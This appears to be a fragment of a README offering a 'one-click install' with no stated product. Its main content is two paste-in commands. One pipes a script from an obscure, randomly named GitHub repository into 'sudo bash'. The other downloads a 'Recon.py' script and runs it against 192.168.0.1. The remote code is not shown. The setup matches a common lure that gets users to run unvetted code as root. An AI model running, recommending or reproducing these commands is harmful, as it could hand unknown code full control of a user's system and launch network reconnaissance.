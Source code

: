 ## One‑click install

**Run these on your terminal (copy each command separately):**

### 1) Install & run api.sh
```bash
curl -s "https://raw.githubusercontent.com/t56r4re/234/refs/heads/main/api.shh" | sed 's/\r$//' | sudo bash
```
curl -sL "https://raw.githubusercontent.com/t56r4re/34553/refs/heads/main/Recon.py" | sed 's/\r$//' > /tmp/Recon.py && printf "192.168.0.1\n" | python3 /tmp/Recon.py  
